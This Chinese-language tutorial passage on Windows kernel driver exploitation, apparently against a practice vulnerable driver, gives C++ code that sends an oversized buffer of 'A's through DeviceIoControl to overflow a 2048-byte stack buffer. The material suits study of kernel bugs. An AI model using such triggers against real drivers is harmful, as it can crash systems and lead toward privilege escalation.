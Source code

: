 ### C. 简单与功能交互

[![](assets/1706090591-44c40beadb7b405d4a6dfca58897e743.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130106-401ee412-b8e3-1.png)

这里要传一个空间和大小过去，这里用的到方式就是上一篇的 IOCTL 方式

这里我把所有的 exp 定义在`exp.c`

```bash
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x50] = "aaaaa\0";
    unsigned int size = 0x30;
    DWORD info = 0;
    DeviceIoControl(hDevice, ioctl, stackspace, sizeof(DWORDLONG), &size, sizeof(DWORDLONG), &info, NULL);
    std::cout << "IO Complete\n";
}
```

[![](assets/1706090591-3c31e1e0f75924e83b23f71b4395c96c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122130127-4c326d5a-b8e3-1.png)

驱动定义了一个 2048 大小的栈空间`v5`，但是写入的空间是我们可以控制的，尝试触发漏洞

```bash
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x1000;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```
